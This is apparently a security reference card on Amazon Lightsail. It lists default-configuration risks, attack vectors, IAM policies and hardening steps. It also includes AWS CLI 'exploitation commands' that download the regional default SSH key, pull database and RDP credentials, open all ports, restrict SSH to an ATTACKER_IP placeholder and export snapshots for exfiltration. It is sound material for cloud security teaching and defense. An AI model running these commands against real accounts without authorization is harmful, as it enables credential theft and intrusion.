

#  Amazon Lightsail Security



> **Category**: COMPUTE

Amazon Lightsail provides simplified virtual private servers, managed databases, object storage, and container services with a built-in firewall. Its simplified interface masks real security risks: default SSH keys shared across all instances in a region, firewall rules open to 0.0.0.0/0 by default, and forgotten instances running unpatched software are common attack surfaces.


## Quick Stats

| Risk Level | Scope | Firewall | Key Mgmt |
| --- | --- | --- | --- |
| **HIGH** | **Regional** | **Instance-level** | **Default + Custom Keys** |

## 📋 Service Overview

### Instance Firewall

Each Lightsail instance has two independent firewalls (IPv4 and IPv6) that control inbound traffic only. Rules are permissive-only (allow, no deny). All outbound traffic is allowed by default. Default blueprints ship with SSH (22) and HTTP (80) open to all IP addresses. Windows blueprints additionally open RDP (3389), and CMS blueprints (WordPress, etc.) additionally open HTTPS (443).

> Attack note: Default firewall rules expose SSH to 0.0.0.0/0 on every Linux instance at creation. When multiple rules exist for the same port, the most permissive rule wins.

### Default SSH Keys and Access

Lightsail creates one default SSH key pair per AWS Region. The private key is stored by AWS and can be downloaded via the console or CLI (`download-default-key-pair`). Every instance in that region uses this same default key unless overridden. The `get-instance-access-details` API returns temporary SSH private keys and RDP passwords.

> Attack note: Anyone with Lightsail API access can download the regional default private key or request temporary SSH credentials, gaining shell access to every instance using that key.

## Security Risk Assessment

`████████░░` **8.0/10** (HIGH)

Lightsail instances are frequently deployed by non-security-focused teams, left unmonitored, and forgotten. The combination of default SSH keys shared per region, permissive default firewall rules, no VPC-level network ACLs, IMDSv1 enabled by default on most blueprints (except Amazon Linux 2023 and Ubuntu 24, which default to IMDSv2), and limited CloudTrail visibility makes Lightsail a high-value target for lateral movement.

## ⚔️ Attack Vectors

### Credential & Key Theft

- Download regional default SSH key via API
- Retrieve temporary SSH keys via `get-instance-access-details`
- Retrieve RDP admin password for Windows instances
- Retrieve database master password via `get-relational-database-master-user-password`
- SSRF to IMDS (IMDSv1 enabled by default on most blueprints; Amazon Linux 2023 and Ubuntu 24 default to IMDSv2)

### Instance & Network Exploitation

- Brute-force SSH on default open port 22
- Exploit unpatched blueprint applications (WordPress, LAMP, Node.js)
- Abuse exported snapshots containing residual SSH keys
- Pivot from peered VPC (firewall rules do not apply to private IP traffic)
- Access forgotten/abandoned instances running outdated software

## ⚠️ Misconfigurations

### Firewall & Network

- SSH (22) or RDP (3389) open to 0.0.0.0/0 (default)
- No source IP restriction on administrative ports
- All outbound traffic allowed (no egress filtering possible)
- IPv6 firewall rules not configured (separate from IPv4)
- No VPC flow logs (Lightsail VPC is managed, not user-accessible)

### Instance & Data

- IMDSv1 enabled on most blueprints (http-tokens set to optional by default; Amazon Linux 2023 and Ubuntu 24 default to required)
- Using shared default key pair instead of per-instance custom keys
- Automatic snapshots not enabled (no recovery from ransomware)
- Database publicly accessible with default master credentials
- Exported snapshots to EC2 retain residual Lightsail SSH keys

## 🔍 Enumeration

**List All Instances**
```bash
aws lightsail get-instances
```

**Get Instance Firewall Port States**
```bash
aws lightsail get-instance-port-states \
  --instance-name my-instance
```

**Download Regional Default SSH Key Pair**
```bash
aws lightsail download-default-key-pair
```

**Get Temporary SSH Access Credentials**
```bash
aws lightsail get-instance-access-details \
  --instance-name my-instance --protocol ssh
```

**List All Instance Snapshots**
```bash
aws lightsail get-instance-snapshots
```

**List All Databases**
```bash
aws lightsail get-relational-databases
```

**Get Database Master Password**
```bash
aws lightsail get-relational-database-master-user-password \
  --relational-database-name my-db
```

**List All Key Pairs**
```bash
aws lightsail get-key-pairs
```

**Check VPC Peering Status**
```bash
aws lightsail is-vpc-peered
```

**List Object Storage Buckets**
```bash
aws lightsail get-buckets
```

## 📈 Privilege Escalation

### From Lightsail API Access to Instance Shell

- Use `download-default-key-pair` to get the regional private key, then SSH into any instance using that default key
- Use `get-instance-access-details` to obtain temporary SSH credentials for any instance
- Use `get-relational-database-master-user-password` to retrieve database admin credentials
- Open new firewall ports via `open-instance-public-ports` to expose services
- Export instance snapshot to EC2 via `export-snapshot`, then mount the volume to extract data

### From Instance Shell to AWS Account

- Query IMDS at 169.254.169.254 for IAM role credentials (if IMDSv1 is enabled)
- Read application configuration files containing AWS access keys
- Pivot to peered VPC resources via private IP (bypasses Lightsail firewall)
- Create instance snapshots containing sensitive data for later exfiltration

> **Key insight:** Lightsail's `download-default-key-pair` and `get-instance-access-details` are uniquely dangerous APIs -- they directly return SSH private keys and passwords, unlike EC2 which requires the original key pair to decrypt Windows passwords.

## 💻 Exploitation Commands

**Download Default Key and SSH into Instance**
```bash
aws lightsail download-default-key-pair \
  --query 'privateKeyBase64' --output text > lightsail-key.pem
chmod 600 lightsail-key.pem
ssh -i lightsail-key.pem ubuntu@<instance-public-ip>
```

**Open All Ports on an Instance**
```bash
aws lightsail open-instance-public-ports \
  --instance-name my-instance \
  --port-info fromPort=0,toPort=65535,protocol=all
```

**Replace All Firewall Rules (Close Everything Except Attacker Access)**
```bash
aws lightsail put-instance-public-ports \
  --instance-name my-instance \
  --port-infos '[{"fromPort":22,"toPort":22,"protocol":"tcp","cidrs":["ATTACKER_IP/32"]}]'
```

**Retrieve Database Master Password**
```bash
aws lightsail get-relational-database-master-user-password \
  --relational-database-name my-db \
  --password-version CURRENT
```

**Export Snapshot to EC2 for Data Exfiltration**
```bash
aws lightsail export-snapshot \
  --source-snapshot-name my-instance-snapshot
```

**Get Temporary RDP Credentials for Windows Instance**
```bash
aws lightsail get-instance-access-details \
  --instance-name my-windows-instance --protocol rdp
```

## 📜 Policy Examples

### Dangerous - Full Lightsail Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "lightsail:*",
    "Resource": "*"
  }]
}
```

*Grants access to download SSH keys, retrieve database passwords, modify firewall rules, and delete all resources*

### Secure - Read-Only Monitoring

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "lightsail:GetInstances",
      "lightsail:GetInstanceState",
      "lightsail:GetInstancePortStates",
      "lightsail:GetInstanceMetricData",
      "lightsail:GetRelationalDatabases"
    ],
    "Resource": "*"
  }]
}
```

*Read-only access for monitoring -- cannot download keys, open ports, or modify resources*

### Dangerous - Allows Key Download and Credential Retrieval

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "lightsail:DownloadDefaultKeyPair",
      "lightsail:GetInstanceAccessDetails",
      "lightsail:GetRelationalDatabaseMasterUserPassword"
    ],
    "Resource": "*"
  }]
}
```

*These three actions alone grant SSH/RDP access to all instances and database admin access*

### Secure - Deny Credential Retrieval

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": [
      "lightsail:DownloadDefaultKeyPair",
      "lightsail:GetInstanceAccessDetails",
      "lightsail:GetRelationalDatabaseMasterUserPassword",
      "lightsail:OpenInstancePublicPorts",
      "lightsail:PutInstancePublicPorts"
    ],
    "Resource": "*"
  }]
}
```

*Explicit deny on the most dangerous Lightsail actions -- prevents credential theft and firewall modification*

## 🛡️ Defense Recommendations

### Enforce IMDSv2

Require session tokens for IMDS access on all Lightsail instances to block SSRF-based credential theft.

```bash
aws lightsail update-instance-metadata-options \
  --instance-name my-instance \
  --http-tokens required \
  --http-endpoint enabled
```

### Restrict SSH to Known IPs

Replace the default "all IPs" SSH rule with source IP restrictions. Use `put-instance-public-ports` to replace all rules atomically.

```bash
aws lightsail put-instance-public-ports \
  --instance-name my-instance \
  --port-infos '[{"fromPort":22,"toPort":22,"protocol":"tcp","cidrs":["203.0.113.0/24"]},{"fromPort":443,"toPort":443,"protocol":"tcp","cidrs":["0.0.0.0/0"]}]'
```

### Use Custom Key Pairs Instead of Default

Create per-instance or per-team custom key pairs and stop using the shared regional default key.

```bash
aws lightsail create-key-pair --key-pair-name prod-web-key
```

### Enable Automatic Snapshots

Protect against ransomware and accidental deletion with daily automatic snapshots.

```bash
aws lightsail enable-add-on \
  --resource-name my-instance \
  --add-on-request addOnType=AutoSnapshot,autoSnapshotAddOnRequest={snapshotTimeOfDay=06:00}
```

### Deny Dangerous API Actions via IAM

Apply an explicit deny SCP or IAM policy on `DownloadDefaultKeyPair`, `GetInstanceAccessDetails`, and `GetRelationalDatabaseMasterUserPassword` for all users who do not need direct instance access.

### Audit and Decommission Forgotten Instances

Regularly enumerate all Lightsail instances across all regions. Lightsail resources do not appear in EC2 console, making them easy to overlook.

```bash
for region in $(aws lightsail get-regions --query 'regions[].name' --output text); do
  echo "=== $region ==="
  aws lightsail get-instances --region "$region" \
    --query 'instances[].{Name:name,State:state.name,IP:publicIpAddress,Created:createdAt}'
done
```

---

*AWS Lightsail Security Card*

*Always obtain proper authorization before testing*
